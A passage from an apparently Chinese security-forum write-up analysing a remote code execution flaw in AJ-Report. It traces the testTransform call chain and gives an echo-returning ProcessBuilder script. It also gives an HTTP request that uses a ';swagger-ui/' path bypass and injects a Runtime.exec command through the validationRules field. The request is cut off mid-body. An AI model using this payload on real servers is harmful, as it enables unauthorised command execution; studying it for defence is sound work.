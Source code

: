 后面调的时候突然发现了盲点，我执行的明明是whoami，怎么弹了个计算器，然后反应过来有可能是内存的原因，所以重启一下环境，这样就正常了

![image-20241020000408291](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-ed9e7dc9d23ff49493787323b5293567efc19105.png)

打回显的话可以用网上的写法：

定义一个verification类，创建操作系统进程的类执行whoami并获取该进程的标准输出流，之后读取输入流然后返回，这样就有回显了

```java
function verification(data){a = new java.lang.ProcessBuilder(\"whoami\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}
```

#### 入口点为testTransform

下面跟第二个入口点，调用层次结构，大概触发流程是这样的

`com.anjiplus.template.gaea.business.modules.dataset.controller.testTransform(DataSetTestTransformParam)-----&gt;com.anjiplus.template.gaea.business.modules.dataset.service.impl.testTransform(DataSetDto))-----&gt;com.anjiplus.template.gaea.business.modules.datasetparam.service.impl.verification(List, Map)-----&gt;com.anjiplus.template.gaea.business.modules.datasetparam.service.impl.verification(DataSetParamDto)`

testTransform(DataSetTestTransformParam)是这样的

![image-20241020125035871](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-34d15ad2abe7d9bd83c03a8fdc592632c8abe0f8.png)

跟一下这个DataSetTestTransformParam，定义了五个参数，三个string，两个list

![image-20241020125132880](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-0ae6da2f0ddb30d88a558d2077a05d8f84f479d4.png)

只需要构造这三个参数即可，注意他要从dynSentence里获取body的值，所以构造的时候要加上，其他的看定义都是strings

![image-20241020130618117](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-c4f9b3e61f7e3b4621fbb26c3348cd9afdc61b64.png)

再加上箭头这里的DataSetParamDtoList参数，虽然往后也需要获取DataSetTransformDtoList参数的值，但是到箭头这里就已经调用完成了，所以并不需要构造DataSetTransformDtoList参数

![image-20241020131230084](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-cb1aa33250d9b64b671b4e90aab81ad3464a9fe4.png)

DataSetParamDtoList参数的构造方法上一个入口点提过了，所以直接构造即可

![image-20241020131840663](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-ed955f36c056b65a07651987da01ce8c1fd43c26.png)

```http
POST /dataSet/testTransform;swagger-ui/ HTTP/1.1
Host: 127.0.0.1:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 610

{
  "sourceCode": 1,
  "dynSentence": "{'body':'1'}",
  "dataSetParamDtoList": [
    {
      "sampleItem": "",
      "validationRules": "function verification(){var x=java.lang.Runtime.getRuntime().exec(\"calc\")}"
    }
  ],
```